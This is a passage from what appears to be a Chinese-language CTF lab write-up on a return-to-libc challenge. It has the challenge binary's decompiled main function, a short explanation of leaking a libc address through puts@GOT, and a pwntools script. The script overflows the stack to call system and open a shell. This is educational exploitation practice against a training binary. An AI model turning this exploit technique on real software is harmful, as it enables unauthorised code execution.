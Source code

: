 ```python  
r.interactive()  
```  
  
## lab4  
  
反编译:  
  
```c  
int __cdecl main(int argc, const char **argv, const char **envp)  
{  
  char **v4; // [esp+4h] [ebp-11Ch]  
  int v5; // [esp+8h] [ebp-118h]  
  char src; // [esp+12h] [ebp-10Eh]  
  char buf; // [esp+112h] [ebp-Eh]  
  const void **v8; // [esp+11Ch] [ebp-4h]  
  
  puts("###############################");  
  puts("Do you know return to library ?");  
  puts("###############################");  
  puts("What do you want to see in memory?");  
  printf("Give me an address (in dec) :");  
  fflush(stdout);  
  read(0, &buf, 0xAu);  
  v8 = (const void **)strtol(&buf, v4, v5);  
  See_something(v8);  
  printf("Leave some message for me :");  
  fflush(stdout);  
  read(0, &src, 0x100u);  
  Print_message(&src);  
  puts("Thanks you ~");  
  return 0;  
}  
```  
  
`See_something`函数支持打印出v8地址处的值，可以泄露出libc的地址。然后利用`Print_message`的栈溢出将其返回地址修改成`system`函数的地址。  
  
```python  
#coding=utf-8  
  
from pwn import *  
context.terminal = ["tmux", "split", "-h"]  
context.log_level = "debug"  
DEBUG = 1  
r = process("./ret2lib")  
if DEBUG:  
	gdb.attach(r, """  
		b *0x0804857c  
		c  
	""")  
r.recvuntil(":")  
  
puts_got = 0x0804a01c  
r.sendline(str(puts_got))  
r.recvuntil("The content of the address :")  
puts_str = r.recvuntil('\n')  
success("recv address: " + puts_str)  
puts = int(puts_str, 16)  
success("puts address: " + hex(puts))  
  
system = puts - 0x5fcb0 + 0x3adb0  
sh = 0x804929e  
payload = "a"*0x3c + p32(system) + "aaaa" + p32(sh)  
r.recvuntil(":")  
r.sendline(payload)  
r.interactive()  
```
